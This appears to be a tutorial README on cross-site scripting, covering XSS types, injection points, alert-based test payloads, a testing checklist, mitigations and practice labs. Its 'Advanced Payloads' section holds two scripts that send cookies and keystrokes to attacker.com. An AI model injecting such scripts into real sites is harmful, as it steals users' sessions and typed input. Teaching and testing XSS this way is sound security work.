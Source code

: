# Day 3: Cross-Site Scripting (XSS)

## 📖 Overview  
Cross-Site Scripting (XSS) is a widespread web security vulnerability that enables attackers to inject malicious scripts into trusted websites. The scripts run in the context of the victim's browser, allowing attackers to steal sensitive data, hijack user sessions, or deface websites.

---

## 🚩 Key Concepts  

### **What is XSS?**  
XSS occurs when:  
- An application includes untrusted user input in its output.  
- Input is not properly sanitized or escaped.  
- Malicious scripts execute in the victim's browser.  

### **Types of XSS**  
1. **Stored XSS**: Malicious scripts are permanently stored on the server (e.g., in a database or logs).  
2. **Reflected XSS**: Malicious scripts are reflected back to the user via URL or HTTP parameters.  
3. **DOM-based XSS**: Client-side scripts process untrusted user input directly in the browser's DOM.  

---

## 🔍 **How to Identify XSS Vulnerabilities**  

### **Common Injection Points**  
- Input fields (e.g., search boxes, forms).  
- URL parameters (e.g., `?q=<script>`).  
- HTTP headers (e.g., User-Agent, Referer).  
- Dynamic content rendered on the page.  

---

## 🛠️ **Exploitation Steps**  

### **Example 1: Stored XSS**  
- **Injection Point**: Comment or feedback forms.  
- **Payload**:  
  ```html
  <script>alert('XSS Vulnerability!');</script>
  ```  
- **Impact**:  
  - Script executes every time a user views the injected content.

### **Example 2: Reflected XSS**  
- **Injection Point**: Search or query parameters in the URL.  
- **Payload**:  
  ```html
  <script>alert(document.cookie);</script>
  ```  
- **Example Request**:  
  ```http
  http://example.com/search?q=<script>alert('XSS');</script>
  ```  

### **Example 3: DOM-based XSS**  
- **Injection Point**: JavaScript rendering dynamic content in the DOM.  
- **Payload**:  
  ```html
  <img src=x onerror=alert('DOM-XSS')>
  ```  
- **Exploitation**: Directly inject into client-side code manipulating the DOM.

---

## **XSS Vulnerability Checklist**  

### **1. Reconnaissance**  
- [ ] Identify user input reflected or stored in responses.  
- [ ] Examine client-side JavaScript for unsanitized DOM manipulations.  

### **2. Testing**  
- [ ] Test for HTML/JavaScript injection with payloads:  
  - `<script>alert('XSS');</script>`  
  - `"><img src=x onerror=alert('XSS')>`  
  - `'><svg onload=alert('XSS')>`  
- [ ] Observe whether the payload is rendered or sanitized.  

### **3. Verification**  
- [ ] Confirm script execution in the browser.  
- [ ] Analyze potential impact (e.g., data theft, session hijacking).

---

## 🔒 **Mitigation Strategies**  

1. **Input Validation**: Allow only expected formats for input.  
2. **Output Encoding**: Encode data before rendering to prevent execution:  
   - Use libraries like `htmlspecialchars()` (PHP) or `ESAPI.encodeForHTML()` (Java).  
3. **Content Security Policy (CSP)**: Restrict the execution of scripts to trusted sources.  
4. **Sanitize Inputs**: Use sanitization libraries to clean user inputs.  
5. **Avoid Inline Scripts**: Place scripts in external files and avoid `eval()` or similar functions.  
6. **HTTPOnly Cookies**: Prevent attackers from accessing cookies via JavaScript.  

---

## 💻 **Hands-on Practice**  
- Test XSS vulnerabilities on the following platforms:  
  - [XSS Game by Google](https://xss-game.appspot.com/)  
  - [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)  
  - [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)  

---

## **XSS Payloads for Testing**  
### **Basic Payloads**  
- `<script>alert('XSS');</script>`  
- `"><img src=x onerror=alert(1)>`  

### **Advanced Payloads**  
- Exfiltrate cookies:  
  ```html
  <script>fetch('http://attacker.com/log?cookie='+document.cookie)</script>
  ```  
- Keylogger:  
  ```html
  <script>document.onkeypress = function(e) { fetch('http://attacker.com/log?key='+e.key); }</script>
  ```  

---

## 🛠️ **Resources**  
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)  
- [PortSwigger’s XSS Labs](https://portswigger.net/web-security/cross-site-scripting)  
